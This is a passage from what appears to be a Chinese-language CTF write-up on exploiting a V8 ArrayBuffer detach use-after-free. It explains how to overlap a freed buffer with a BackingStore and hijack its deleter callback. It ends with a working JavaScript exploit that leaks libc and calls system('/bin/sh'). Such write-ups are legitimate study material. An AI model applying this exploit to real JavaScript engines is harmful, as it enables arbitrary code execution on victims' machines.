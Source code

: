 可以看到在 `~BackingStore()` 當中，如果 `custom_deleter_` 為 true，則會透過自己的 deleter 執行 callback function：

```cpp
BackingStore::~BackingStore() {
  GlobalBackingStoreRegistry::Unregister(this);
  ...
  if (buffer_start_ == nullptr) {
    Clear();
    return;
  }
  ...
  if (custom_deleter_) {
    DCHECK(free_on_destruct_);
    TRACE_BS("BS:custome deleter bs=%p mem=%p (length=%zu, capacity=%zu)\n",
             this, buffer_start_, byte_length(), byte_capacity_);
    type_specific_data_.deleter.callback(buffer_start_, byte_length_,
                                         type_specific_data_.deleter.data);
    Clear();
    return;
  }
  ...
}
```

- 其中 `type_specific_data_` 為 `BackingStore` 的一個 member，其 union `deleter` 的結構為：

  ```cpp
    struct DeleterInfo {
      v8::BackingStore::DeleterCallback callback;
      void* data;
    };
  ```

  如果能更改此 `callback` 成 `system()`，並傳入 `buffer_start_` 為 `/bin/sh` ptr，即可執行 `system("/bin/sh")`

雖然我們 detach 了 `ArrayBuffer`，但是還是能透過 `ta.set()` 去更新內部的東西，並且 data memory region 也會被其他需要的 object 取得，因此如果可以控制  `ArrayBuffer` 跟 `BackingStore` 有 overlap，就能任意更改 `BackingStore` struct 內部的 member，也能控制 `buffer_start_` 以及 `type_specific_data_.deleter.callback`。

`BackingStore`  的大小為 0x30，如果我們 detach 的 `ArrayBuffer` 剛好也是 0x30，極有可能在幾次後從 fastbin / tcache 中拿到我們 detach 的 `ArrayBuffer`，而次數取決於 js engine 內部的操作，即使是執行 `%DebugPrint()` 也會造成影響。不過即使有變動，如果行為完全相同，基本上能讓 memory 的操作做到一樣，最後的 exploit 如下：

```js
let a = new BigUint64Array(0xaaa);
let b = new BigUint64Array(0xaaa);
%ArrayBufferDetach(a.buffer);
b.set(a);
let libc = b[1] - 0x3ebca0n;
let _system = libc + 0x4f550n;
let binsh = libc + 0x1b3e1an;
console.log("libc: 0x" + libc.toString(16));

let tmp = new ArrayBuffer(0x30);
let fake_obj = new BigUint64Array(tmp);
fake_obj[0] = binsh;
fake_obj[1] = 0x100n;
fake_obj[2] = 0x100n;
fake_obj[3] = _system;
fake_obj[4] = 0x0n;
fake_obj[5] = 0x48n;

let tmp2 = new ArrayBuffer(0x30);
let a2 = new BigUint64Array(tmp2);
%ArrayBufferDetach(a2.buffer); // 0x40 array buffer data chunk put into fastbin (0x590)
let dummy = new ArrayBuffer(0x200); // get dummy fastbin chunk (0x610)
let victim = new ArrayBuffer(0x200); // overlap with 0x30
a2.set(fake_obj);
```